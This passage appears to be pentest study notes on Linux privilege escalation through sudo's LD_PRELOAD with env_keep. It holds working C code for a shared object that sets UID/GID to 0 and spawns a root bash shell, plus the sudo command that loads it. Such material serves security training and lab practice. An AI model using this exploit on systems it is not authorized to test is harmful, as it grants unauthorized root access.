 Any user can check its current situation related to root privileges using the `sudo -l` command.

**Leverage LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option.

![](../../../_resources/045238b7a9df1dffc9b232dd8fee994c)

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1.  Check for LD\_PRELOAD (with the env\_keep option)
2.  Write a simple C code compiled as a share object (.so extension) file
3.  Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`